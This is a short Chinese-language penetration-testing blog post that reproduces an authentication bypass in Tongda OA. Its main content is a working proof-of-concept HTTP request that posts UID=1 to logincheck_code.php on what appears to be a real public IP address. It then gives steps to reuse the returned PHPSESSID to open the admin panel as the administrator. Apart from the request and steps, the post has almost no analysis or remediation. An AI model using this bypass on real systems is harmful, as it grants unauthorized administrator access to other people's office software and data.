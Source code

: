 ```yaml
---
title: 【渗透测试】通达OA登录认证绕过
date: 2025-09-18
categories:
  - 渗透测试
image: images/77.webp
---
```

# 复现
开局一个登录框
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250918153639.png)
抓包构造POC
```php
POST /logincheck_code.php HTTP/1.1
Host: 61.184.199.14:8989
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 56
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
UID=1
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250918153710.png)
记录返回的PHPSESSID，在漏洞url后构建poc。
访问地址：
```
http://xxxx/general/index.php
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250918153753.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250918153810.png)
替换刚才记录的PHPSESSID，成功登录到管理员用户。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250918153846.png)
